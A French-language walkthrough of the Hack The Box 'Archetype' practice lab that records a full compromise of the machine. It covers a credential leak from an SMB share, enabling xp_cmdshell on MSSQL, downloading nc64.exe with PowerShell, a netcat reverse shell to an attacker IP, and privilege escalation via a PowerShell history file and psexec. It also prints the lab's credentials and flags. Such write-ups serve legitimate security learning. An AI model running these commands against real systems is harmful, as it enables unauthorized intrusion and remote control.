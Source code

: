 ## Lab Title: Archetype
- Date: 2025-09-21
- Duration: ~30 minutes

### Platform: HTB – Starting Point > Tier 2

### 1. Scenario Summary
1. Découverte : scan Nmap révèle 135/139/445/1433 et un partage `backups` accessible (blank password) contenant les identifiants `ARCHETYPE\sql_svc:M3g4c0rp123`.

2. Exploitation : avec `mssqlclient.py` d’Impacket on se connecte à MSSQL, active `xp_cmdshell`, télécharge `nc64.exe` via PowerShell et obtient une reverse shell (user.txt trouvé).

3. Élévation : exécution de `winPEAS` révèle `ConsoleHost_history.txt` contenant le mot de passe Admin, puis `impacket-psexec` permet d’obtenir la session SYSTEM/Administrator et récupérer `root.txt`.


### 2. Findings
1. Pour trouver le port ouvert:
    - Nmap est utilisé: `nmap $ip -Pn --top-ports=1000`
    - J'ai trouvé ces ports ouverts:
    ```code
        135/tcp  open  msrpc
        139/tcp  open  netbios-ssn
        445/tcp  open  microsoft-ds
        1433/tcp open  ms-sql-s
    ```

2. Pour montrer les `SMB shares` non-administrative
    - J'ai utilisé `smbclient`
        - `smbclient -L $ip` >> pour le mot de passe: `blank password`
        - J'ai obtenu ces resultats:
    ```code
        ADMIN$          Disk      Remote Admin
	    backups         Disk
	    C$              Disk      Default share
	    IPC$            IPC       Remote IPC
    ```
3. Pour connecter ce partage non-administrative, j'ai utilisé également `smbclient`:
    - `smbclient \\\\$ip\\backups` >> avec le mot de passe `blank password` >> just appuyer simplement sur `Enter`
    - Voilà, j'ai trouvé le compte de service: `Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;`
        - `sql_svc` et son mot de passe: `M3g4c0rp123`

4. Pour establier une connnection avec MS SQL Serveur, on doit utiliser le script de **impacket:** `mssqlclient.py`
    - `pip show -f impacket`
    - `python3 mssqlclient.py ARCHETYPE\sql_svc@$ip -windows-auth`
        - Cela demande le mot de passe pour ce compte de service: `sql_svc`

5. Dans MS SQL Serveur, il y a une capabilité de `terminal` pour lancer `Windows Command Shell`
    - Cette capabilité s'appele: **xp_cmdshell**
    - Pour activer ça: on doit faire ces actions suivis dans le serveur:
    ```code
        EXEC sp_configure 'show advanced options', 1;
        RECONFIGURE;
        EXEC sp_configure 'xp_cmdshell', 1;
        RECONFIGURE;
    ```
6. Pour trouver et rechercher les moyens dans Windows pour `privelege escalation`, on doit utiliser **winPEAS**
    - WinPEAS (Windows Privielege Escalation Awesome Scripts Suite)
    - `winPEASx64.exe` est possible de télécharger de GitHub repo
    - Donc, on doit avoir cela pour fair `escalation`

7. Maintenant, on doit mettre les logiciels nécessaires pour continuer ses actions:
    - D'abord, on doit avoir `reverse shell` >> pour cela >> on doit utiliser **netcat**
    - Dans le machine d'attaquant, on fait
        - `python3 -m http.server 8000` avec le logiciel: `nc64.exe`
    - Et, en ce moment, on utilise `powershell` dans SQL Serveur: `xp_cmdshell`
        - Avec le compte: `sql_svc`, on peut mettre le fichier dans le `Downloads` dossier.
        - `powershel -c cd C:\Users\sql_svc\Downloads; Invoke-WebRequest http://$ip:8000/nc64.exe -outfile nc64.exe`
            - Dans le machine d'attaquant, on a recu le message `GET` pour ce fichier. >> cela est la preuve
    - Et, en ce moment, dans le machine attaquant, on fait:
        - `nc -lvpn 443`: l (listening), v(verbose), p(souce_port), n(no DNS resolution), **listen on port 443**
    - Dans le SQL >> **xp_cmdshell**, on exécute la commande pour lancer `nc64.exe`:
        - `powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.77 443`
        - `-e` indique à `nc` d'exécuter le programme fourni (cmd.exe) et de rediriger son entrée/sortie standard sur la connexion réseau.
        - ça crée une reverse shell vers l'IP/port indiqués.

8. Après, on a la reverse shell >> on a changé le dossier au Desktop pour trouver le drapeau:
    - Là-bas, on a trouvé: `user.txt` avec le drapeau: `3e7b102e78218e935bf3f4951fec21a3`

9. Quand on a utilisé `winPEASx64.exe`, on a trouvé que: `ConsoleHost_history.txt` existait.
    - Et donc, à l'intérieur, on a trouvé **le mot de passe** de **Administrator**
    - `net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!`

10. Après, on a dû utiliser `impacket-psexec` avec les privilèges d'administrator:
    - `python3 impacket-psexec administrator@$ip` et `son mot de passe`
    - Et on a changé le dossier au Desktop où on a trouvé: `root.txt` avec le drapeau: `b91ccec3305e98240082d4474b848528`

### 3. Idea
1. *C$, ADMiIN$, IPC$ sont des administrative shares créés par défaut.*

2. `$` >> **c’est un partage caché (hidden share) dans Windows.**

3. La reverse shell avec `nc64.exe` et rechercher les privilèges avec `winPEASx64.exe` dans Windows

4. L'usage de `impacket`: **mssqlclient.py et psexec.py** pour la connexion avec Windows

5. Le serveur MS SQL: `xp_cmdshell` capabilité et c'est génial de savoir ça. De ce serveur, l'usage de `powershell` pour mettre et lancer les logiciels!

6. Voilà, ça y est, c'est fini: `https://labs.hackthebox.com/achievement/machine/2118023/287`
